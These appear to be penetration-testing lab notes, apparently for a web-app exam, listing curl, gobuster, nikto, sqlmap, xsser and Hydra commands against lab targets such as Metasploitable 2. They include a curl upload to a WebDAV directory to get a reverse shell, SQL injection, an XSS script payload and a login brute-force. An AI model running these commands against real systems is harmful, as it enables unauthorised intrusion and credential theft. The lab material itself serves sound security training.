 # Labs

## <mark style="color:red;">Lab 1 - Web and HTTP Protocol</mark>

{% file src="../.gitbook/assets/http_methods_with_curl_walkthrough.pdf" %}
http methods walkthrough
{% endfile %}

### Practical Demonstration

{% code overflow="wrap" lineNumbers="true" %}
```bash
# for the purpose of the exam.
dirb http://$ip # bruteforce and discover directories.
curl -X GET $ip # get entire webpage.
curl --head $ip # for head request. or curl -I $ip
curl -X OPTIONS $ip -v # for OPTIONS.
curl -X POST $ip # POST request.
curl -X PUT $ip # PUT method.
curl -X OPTIONS $ip/login.php # interaction with a sub-page.
curl -X POST 192.45.178.3/login.php -d "name=john&password=password" -v # Passing the username and password to the login.php page.
curl -X OPTIONS 192.45.178.3/uploads/ -v # sneding OPTIOJNS request for /uploads/ directory.




# General Knowledge using Metasploitable 2 as Case-Study.
curl http://192.168.0.141/mutillidae/ -X GET #get request reutrns entire webpage using curl.

# 1 - HEAD
curl http://192.168.0.141/mutillidae/ -I HEAD # head request.

# 2 - upload files
# uploading file to /dav dir with curl to obtain reverse shell.
curl http://192.168.0.141/dav/ --upload-file php_code.php -v

# 3 - OPTIONS
# viewing supported http methods for the victim with curl.
curl -X 'OPTIONS' http://192.168.0.141/dav/ -v
# returns..
< Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,MOVE,LOCK,UNLOCK

```
{% endcode %}



## <mark style="color:red;">Lab 2 - Directory Enumeration with Gobuster</mark>

{% file src="../.gitbook/assets/gobuster_usage.pdf" %}

`gobuster dir -u http://192.168.0.141 -w /usr/share/wordlists/dirb/common.txt`  - dir enum.

`gobuster dir --help` - help menu.

`gobuster dir -u http://192.168.0.141 -w /usr/share/wordlists/dirb/common.txt -x .php,.xml,.txt -r` - finding specific file extension.

`-b 403,404` - blacklist/exclude these status codes.

`-x .php,.txt,.xml -r` - search for specific file extension, then `-r` to follow redirect.



## <mark style="color:red;">Lab 3 - Scanning Web Apps with Nikto</mark>

`nikto -h http://192.168.0.141` - basic scan with nikto.



## <mark style="color:red;">Lab 4 - SQL Injection with SQLMap</mark>

`sqlmap -u "http://$ip/path" --cookie "PHPSESSID=3434" -p title` -&#x20;



## <mark style="color:red;">Lab 5 - XSS Attack with XSSer</mark>

`xsser --url "http://$ip/...?page=dns-lookup..." -p "<parameter_value>` - check for vulnerability.

`xsser --url "http://$ip/...?page=dns-lookup..." -p "<target-host=XSS> --auto` -  checks for other vuln.. you replace your vuln parameter with "XSS".

`xsser --url "http://$ip/...?page=dns-lookup..." -p "<parameter_value> --Fp "<script>alert(1)</script>"` - to run a custom script.

Then you can copy the payload it generates and use in Burp or ZAP to test your victim site.



## <mark style="color:red;">Lab 6 - Attacking HTTP Login with Hydra</mark>

`hydra -L <users.txt> -P <passwords.txt> $ip http-post-form "/login.php:login=^USER^&password=^PASS&security_level=0form=submit:<regex_Exp to not look for"` - bruteforcing http.



